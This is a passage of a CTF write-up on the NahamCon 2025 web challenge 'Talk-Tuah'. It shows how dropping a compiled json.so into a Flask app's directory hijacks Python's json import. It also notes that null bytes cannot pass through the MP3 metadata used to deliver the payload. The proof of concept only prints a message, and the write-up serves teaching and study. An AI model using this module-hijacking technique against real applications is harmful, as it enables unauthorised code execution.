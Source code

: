 Hmm... It is possible to **hijack** those modules?

In my research, I presented this [flow chart from PEP 3147](https://peps.python.org/pep-3147/#flow-chart):

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/NahamCon-CTF-2025/images/Pasted%20image%2020250527152952.png)

Aha! What if we write, let's say `json.so`, will Python import our `json.so` instead of the installed module path?

> Note: You can write `.py` or `.pyc` file to achieve the same result, as there's no `json.py` in the current directory. I used `.so` file just because it is very cool.

Let's try to hijack module `json`! Here's a simple Proof of concept `json.py` Python script:

```shell
┌[siunam♥Mercury]-(~/Downloads)-[2025.05.27|15:35:50(HKT)]
└> echo -n "print('Hello World from json module')" > json.py
```

- Compile `json.py` into `.so` via [cythonize](https://cython.readthedocs.io/en/latest/src/userguide/source_files_and_compilation.html) and rename the compiled shared object to `json.so`:

```shell
┌[siunam♥Mercury]-(~/Downloads)-[2025.05.27|15:36:17(HKT)]
└> cythonize -i json.py
[...]
┌[siunam♥Mercury]-(~/Downloads)-[2025.05.27|15:36:21(HKT)]
└> mv json.cpython-311-x86_64-linux-gnu.so ~/ctf/NahamCon-CTF-2025/Web/Talk-Tuah/app/json.so
```

- Run `app.py`:

```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2025/Web/Talk-Tuah)-[2025.05.27|15:37:18(HKT)]
└> cd app          
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2025/Web/Talk-Tuah/app)-[2025.05.27|15:37:21(HKT)]
└> python3 app.py 
Hello World from json module
Traceback (most recent call last):
[...]
  File "/usr/lib/python3/dist-packages/werkzeug/test.py", line 350, in EnvironBuilder
    json_dumps = staticmethod(json.dumps)
                              ^^^^^^^^^^
AttributeError: module 'json' has no attribute 'dumps'
```

Oh! We indeed successfully hijacked the `json` module!

Unfortunately, after playing with the metadata, I realized that the delimiter character is a null byte (`\x00`), so our payload can't contain any null byte characters:

```shell
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2025/Web/Talk-Tuah)-[2025.05.27|15:54:36(HKT)]
└> hexedit file_example_MP3_700KB.mp3                                                      
00000000   49 44 33 03  00 00 00 00  00 6D 54 58  58 58 00 00  00 20 00 00  ID3......mTXXX... ..
00000014   00 66 6F 6F  00 62 61 72  00 41 41 41  41 41 41 41  41 41 41 41  .foo.bar.AAAAAAAAAAA
[...]
┌[siunam♥Mercury]-(~/ctf/NahamCon-CTF-2025/Web/Talk-Tuah)-[2025.05.27|15:54:52(HKT)]
└> ffmpeg -i ./file_example_MP3_700KB.mp3 -f ffmetadata -y metadata.txt && cat metadata.txt
[...]
;FFMETADATA1
foo=bar
BPM (beats per minute)=120
date=2018
encoder=Lavf59.27.100
```
